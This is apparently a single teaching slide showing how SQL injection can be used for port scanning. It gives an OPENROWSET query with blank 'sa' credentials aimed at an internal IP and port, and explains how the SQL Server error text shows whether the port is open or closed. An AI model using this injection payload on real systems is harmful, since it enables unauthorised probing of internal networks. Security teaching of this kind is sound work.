

# Port Scanning Example
We can inject the following command
Code to inject:
Select * from OPENROWSET ('SQLoledb', 'uid=sa; pwd=; Network=DBNETLIB; Address=10.5.42.1,80; timeout=5', 'select * from table')
We do not need to have real credentials
To determine the state of the port, look at the error message:
Closed:
"SQL Server does not exist or access denied"
Open:
"OLE DB provider 'sqloledb' reported an error."